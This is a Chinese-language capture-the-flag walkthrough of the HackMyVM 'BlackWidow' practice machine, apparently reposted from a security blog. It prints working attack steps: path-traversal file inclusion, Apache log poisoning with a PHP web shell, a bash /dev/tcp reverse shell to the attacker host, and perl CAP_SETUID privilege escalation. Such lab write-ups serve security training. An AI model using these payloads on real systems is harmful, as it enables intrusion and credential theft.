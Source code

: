 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WxZGm0zi8zDd5K3kHZrjKw)

 ![](http://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUsGamtQXiblwiaPhT11gUfcWibGaGzbdzpL0N1UGmGdGP78y7DW7sCUOicTibjbBZHrHewj9uP2Tx3yPiaw/0?wx_fmt=png) ** 伏波路上学安全 ** 专注于渗透测试、代码审计等安全技术，分享安全知识. 71篇原创内容   公众号

![图片](https://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUscyU8EzyQicenObwiaD42v3AJkNjx0qCwPlUBBUNqzvE3l5L0nGeWtj3WLUBRI2rP2c6bkFKDKbcmg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)  

靶机信息
----

下载地址:

```
https://hackmyvm.eu/machines/machine.php?vm=BlackWidow  
网盘链接：https://pan.baidu.com/s/1MYO7cEOg2xou1FrC40v6qg?pwd=ja7r
```

靶场: HackMyVm.eu

靶机名称: BlackWidow

难度: 困难

发布时间: 2021年5月7日

提示信息:

```
靶机第一次启动没成功，重新启动后可以正常访问
```

目标: user.txt和root.txt

  

实验环境
----

```
攻击机:VMware kali 10.0.0.3 eth0桥接互联网，eth1桥接vbox-Host-Only  
  
靶机:Vbox linux IP自动获取 网卡host-Only
```

  

信息收集
----

### 扫描主机

扫描局域网内的靶机IP地址

```
sudo arp-scan -I eth1 10.0.0.0/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到主机地址为10.0.0.129

### 扫描端口

扫描靶机开放的服务端口

```
sudo nmap -sC -sV -p- 10.0.0.129 -oN nmap.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到多个开放端口，先来看看80端口

Web渗透
-----

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

访问后只有一张图片，做个目录扫描检查敏感url

```
gobuster dir -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.0.0.129 -x php,txt,html
```

  

扫描到/company目录，访问看看

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

源码中找到了一个链接，按照这个链接我们需要绑定域名，先来绑定域名再访问这个链接

```
sudo vi /etc/hosts
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

对company目录作个扫描

```
gobuster dir -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.0.0.129/company -x php,txt,html
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

仍然只有started.php这个动态页面，访问看看

```
http://blackwidow/company/started.php
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

源码中发现提示，正在开发使用file做为参数的php包含方法（后面发现index.php中也有这个提示，只是没太注意忽略了）

手动检测这个参数

```
http://blackwidow/company/started.php?file=/etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

没有返回，继续测试

```
http://blackwidow/company/started.php?file=../../../../../../../../../../../../../etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

匹配路径成功，拿到passwd文件。发现viper用户，继续收集敏感信息，nmap扫描时显示中间件为apache我们找找日志

```
http://blackwidow/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以修改agent写入一句话木马，再通过文件包含执行命令

```
curl -A '<?php system($_GET[shell]); ?>' http://blackwidow/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
http://blackwidow/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log&shell=id
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

写入成功，修改payload反弹shell到攻击机上

1。攻击机监听4444端口

```
rlwrap nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。反弹shell，payload部分需要url编码

编码前

```
http://blackwidow/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log&shell=bash -c 'bash -i >& /dev/tcp/10.0.0.3/4444 0>&1'
```

编码后

```
http://blackwidow/company/started.php?file=../../../../../../../../../../../../../var/log/apache2/access.log&shell=bash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.0.0.3%2f4444%200%3e%261'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，找找敏感信息

```
cd /var/backups  
ls  
cat auth.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到viper的密码，登录SSH验证

```
ssh viper@10.0.0.129
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，继续查找敏感信息。

```
cd /home/viper  
ls  
cat local.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到flag文件local.txt，上传辅助脚本检查

1。攻击机上辅助脚本目录下开启HTTP服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。靶机下载linpeas.sh并执行(靶机上没有wget，使用curl)

```
curl http://10.0.0.3:8000/linpeas.sh -o linpeas.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到arsenic文件有CAP_SETUID能力，看看他有什么功能

```
cd backup_site/assets/vendor/weapon/  
./arsenic -h
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

是perl程序，来看看如何提权

```
https://gtfobins.github.io/gtfobins/perl/#capabilities
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

知道如何提权，来验证一下

```
./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提权成功，找一下flag

```
cd /root  
ls  
cat root.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到root.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)